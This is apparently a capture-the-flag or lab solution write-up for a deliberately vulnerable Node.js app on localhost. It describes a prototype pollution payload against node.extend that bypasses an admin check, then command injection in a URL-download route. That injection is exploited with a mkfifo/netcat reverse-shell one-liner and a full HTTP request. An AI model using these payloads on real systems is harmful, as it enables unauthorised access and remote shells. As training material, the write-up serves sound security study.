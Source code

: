 # Solution

## Recon

By opening the URL http://127.0.0.1:3333, we can see that the Login Page has provided the following credential to log in as a guest user:

* **Username**: *guest*
* **Password**: *pass123*

So let's use them to log in and see more entry points.

![Credentials](https://i.ibb.co/gPmx1Qd/1-guest-account.png)

After signing, we can see a Url Downloader mechanism, but the guest user doesn't have permission to use this feature.

![NotAdmin](https://i.ibb.co/wQKHnMg/4-you-arenotetheadmin.png)

It's always a good idea to check what cookie the Web Site is using, in this case, after the login, the server provided the **admin_session** cookie, which is how the server knows that we are logged in as a guest.

![LogIn](https://i.ibb.co/89Xnqhx/3-login-response.png)

The cookie is apparently safe, so let's take a look at the source code.
At the source code, in the routes.js file, we can see that there is a credential DB with the guest and admin username and password. Looking with attention, you can see that the following value is set to the admin account:

```
 "isAdmin":true
```

Looking at the route **/admin/check_url** (the route used to download the URL), you can see the functions **checkLogin** and **checkAdmin**, responsible to grant or deny access to users that called the route.

![check_url](https://i.ibb.co/HHqcHFC/7-check-url-code.png)

There is a command execution after the administrative check, passing the chosen URL to the command without arguments scaping. So if we gain administrative permissions, we can easily trigger a remote command execution vulnerability.

We don't know the admin passoword because it's a random string, so let's take a look into the **checkLogin** and **checkAdmin** functions to see if we find a bypass.

Well, there is nothing interesting in the **checkLogin** function, since we already have a valid credential, let's look the **checkAdmin** function:

![checkAdmin](https://i.ibb.co/7WTsWmj/8-check-admin-code.png)

This function checks if the requested cookie has administrative permissions, the parameter that defines it is the `isAdmin`, that we already have noted above. But, the guest user doesn't have this permission, and this code is apparently secure, how can we bypass it? Well, let's take a deep look into the code.

Looking with attention to the **/admin/check_url** route, we can see that the developer has implemented a security log feature, defined by the **securityLog** function. This function will be trigged when a non-valid user tries to call this API.

![securityLogCall](https://i.ibb.co/L96PzGn/12e076f8-b9f3-40e4-ac53-e1474e916b64.jpg)

Looking at the function code we can see that it's using the **node.extend** function to concatenate two different JSON into the **log** variable, that will be logged with the **console.log** function.

![securityLogCode](https://i.ibb.co/djx5FxN/9-security-Log-code.png)

As well known, the **node.extend** function is vulnerable to Prototype Pollution, witch can lead to the **credentials DB** pollution, allowing to bypass the **checkAdmin** function.

## Exploit
To exploit it, we need to send the following payload with an unauthenticated user to the `/admin/check_url` route, to trigger the **security Log** function.

```
{
  "__proto__":{
    "isAdmin":true
  }
}
```

The payload above will pollute the guest credential, giving him a administrative permission, E.g:

* Before Pollution:

```
{"username":"guest", "password":"pass123", "cookie": "' + crypto.randomBytes(64).toString("hex") + '"}
```

* After Pollution:

```
{"username":"guest", "password":"pass123", "cookie": "' + crypto.randomBytes(64).toString("hex") + '", "isAdmin":true}
```

*Remeber to change the **Content-Type** header to **Content-Type: application/json** and to remove the **admin_session**.*

* **Payload Request**:

![payloadRequest](https://i.ibb.co/RGnhyd0/17-is-Admintrue.png)


Now, if we make a request with the guest cookie again, you can see that we successfully bypass the **checkAdmin** function.

* **Request After Pollution**:

![requestAfterPollution](https://i.ibb.co/ZGR1HsR/18-after-polluted.png)

![afterPollution](https://i.ibb.co/mC2zwTP/19-after-bypass.png)

## Remote Command Execution and Reverse Shell

As commented above, we already find a Remote Command Execution vulnerability because the passed URL is being used as a command without argument scaping, vulnerable code bellow:

![vulnCode](https://i.ibb.co/SKgzSss/f4002b85-a445-45b1-8a9a-4a1f86361f3e.jpg)

To exploit it, we just need to add a shell command to the URL. So let's make a reverse shell!

First, let's wait for a connection on port 4444 with Netcat:

```
nc -lvp 4444
```

![netCat](https://i.ibb.co/5cQR3Mt/20-nc-lvp.png)

Now let's insert the following payload in the URL parameter to make the reverse shell on 127.0.0.1:4444:

````
;`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f` #
````

* **The Final Payload (Remote Code Execution with the Reverse Shell)**:

```
POST /admin/check_url HTTP/1.1
Host: 127.0.0.1:3333
Connection: keep-alive
Content-Length: 96
User-Agent: Mozilla/ (X11; Linux x86_64) AppleWebKit/ (KHTML, like Gecko) Chrome/
Content-type: application/json
Accept: */*
Origin: http://127.0.0.1:3333
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:3333/admin?
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: admin_session=5f4863e522da99e347045bc4d6343a6d55ead1974b68ac7ac6d2c8cdb5d7bcb846a09442b4bef21447910e612d99506eaf5ffba4c381cb38fb0c4ff5abc37f54

{
 "url":";`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f` #"
}
```

How you can see in the picture below, we successfully got a reverse shell on the target:

![final](https://i.ibb.co/T24wMML/21-payload.png)
